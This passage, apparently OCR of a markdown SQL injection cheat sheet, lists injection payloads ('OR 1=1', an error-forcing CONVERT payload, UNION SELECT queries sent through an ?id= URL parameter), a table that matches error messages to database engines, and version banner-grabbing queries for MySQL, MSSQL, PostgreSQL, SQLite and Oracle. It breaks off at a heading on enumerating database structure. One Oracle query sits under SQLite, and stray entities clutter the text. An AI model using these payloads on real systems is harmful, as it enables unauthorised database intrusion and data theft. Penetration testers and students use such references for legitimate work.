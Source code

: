 &nbsp;	OR 1=1

&nbsp;	' AND 1=CONVERT(int, 'a')--    -- For MSSQL



| Error Fragment                         | Likely DBMS         |

| -------------------------------------- | ------------------- |

| `You have an error in your SQL syntax` | MySQL               |

| `unclosed quotation mark`              | MSSQL               |

| `ORA-00933` or `ORA-00921`             | Oracle              |

| `syntax error at or near`              | PostgreSQL          |

| `SQLite3::SQLException`                | SQLite              |

| `MongoError` or `Unexpected token $`   | MongoDB / NoSQL     |



**Database Banner grabbing**

MySQL:	SELECT @@version;

&nbsp;	SELECT version();

&nbsp;	INSERT INTO members(id, user, pass) VALUES(1,''+SUBSTRING(@@version,1,10) ,10)

Input through URL parameter to reveal DB version

 	?id=1 UNION SELECT null, @@version -- -

MSSQL:	SELECT @@version;

&nbsp;	INSERT INTO members(id, user, pass) VALUES(1,''+SUBSTRING(@@version,1,10) ,10)

PostgreSQL: SELECT version();

&nbsp;	UNION SELECT NULL, version(), NULL

SQLite: sqlite\_version()

&nbsp;	UNION SELECT NULL, sqlite\_version(),NULL;

&nbsp;	SELECT version FROM PRODUCT\_COMPONENT\_VERSION WHERE product LIKE 'Oracle 	Database%';



Oracle: SELECT \* FROM v$version;

&nbsp;	Input through URL parameter to reveal DB version

&nbsp;	?id=1 UNION SELECT banner, null FROM v$version -- -



**Enumerate Database structure**

MySQL:
